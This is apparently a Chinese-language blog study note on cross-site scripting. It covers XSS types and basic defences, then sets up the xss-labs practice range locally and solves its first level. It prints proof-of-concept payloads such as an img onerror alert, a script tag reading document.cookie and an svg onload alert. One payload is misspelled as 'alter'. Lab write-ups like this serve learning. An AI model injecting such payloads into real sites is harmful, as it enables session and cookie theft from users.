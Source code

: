 ## 摸鱼笔记----xss


## 基础1 ---- html

## 基础2 ----  常用js事件

<img src='https://vbnmjj.github.io/img/绿盟xss笔记/1.png' >

## xss类型
    存储型 反射型 储存型
## 测试存在xss
弹窗测试存在漏洞

## url编码

## f12 开发者工具


##xss挖掘思路

    1.寻找可控点
<img src='https://vbnmjj.github.io/img/绿盟xss笔记/2.png' >

## xss防护
输入输出转义

提交内容校验

## 靶场练习
    xss-lasb https://github.com/do0dl3/xss-labs
我是在下载解压之后，在windows10环境下，直接放在phpstudy的www目录下的，然后就可以本地访问了。

## 第一关
寻找参数点进行测试，url里面的肯定是首测的地方。

    http://127.0.0.1:8080/level1.php?name=test

观察name的值，发现他会显示到页面上，所以name就是一个可以进行更改显示的点

<img src='https://vbnmjj.github.io/img/绿盟xss笔记/3.png' >

直接上payload进行验证

    <img src=x onerror=alert(1)>
    <script>alter(1)</script>

    #操作dom
    <script>alert(document.cookie);</script>
    #变形操作
    <svg/onload=alert(1)>





